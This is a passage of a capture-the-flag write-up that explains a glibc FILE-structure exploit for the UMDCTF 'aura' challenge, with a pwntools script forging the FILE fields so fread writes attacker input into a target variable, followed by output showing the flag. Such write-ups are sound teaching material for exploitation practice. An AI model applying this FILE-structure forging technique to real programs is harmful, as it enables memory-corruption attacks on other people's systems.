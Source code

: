 
For us the first important part is `buf_base` `buf_end`, these correspond to the start and end of the area we want to write to. 

The second important part is `int _fileno`, if we set this to 0 then `fread` will read from stdin (standard input). 

Therefore all we have to do is set everything to 0 except `buf_base` and `buf_end` which will be the address of `aura`, and then once we are prompted for input, we can write whatever we want to `aura`.

Scripting time,

```python fold
p = start()

# Get aura address
p.recvuntil("my aura: ")
aura_addr = p.recvline()[:-1].decode()
aura_addr = aura_addr[2:]
aura_addr = bytes.fromhex(aura_addr)
aura_addr = int(aura_addr.hex(), 16)

print(f" aura at {hex(aura_addr)}")

p.recvuntil(b'ur aura? ')
  
  
# Complete FILE structure
payload  = p64(0x8000)                 # _flags                # _IO_USER_BUF flag 
payload += p64(0)                      # _IO_read_ptr          # set all reads to null to force fread to read from stdin
payload += p64(0)                      # _IO_read_end         
payload += p64(0)                      # _IO_read_base
payload += p64(0)                      # _IO_write base        # set writes to null because we are not using them
payload += p64(0)                      # _IO_write_ptr
payload += p64(0)                      # _IO_write_end  
payload += p64(aura_addr)              # _IO_buf_base      # start of address to write to
payload += p64(aura_addr + 0x10)       # _IO_base_end      # end of address to write to 
payload += p64(0) * 8                  # int _fileno somewhere here
payload += p64(0)                      #_IO_lock (after int _fileno)

p.sendline(payload)

# our stdin (fread uses this to write into aura)
p.sendline(b'A' * 100)                 # if you send as little as 16 you can read the flag 

p.interactive()
```
- xpl.py 


```
[*] Switching to interactive mode
UMDCTF{+100aur4}
\x03
```
- 🥶🥶🥶


Thanks for reading :3 

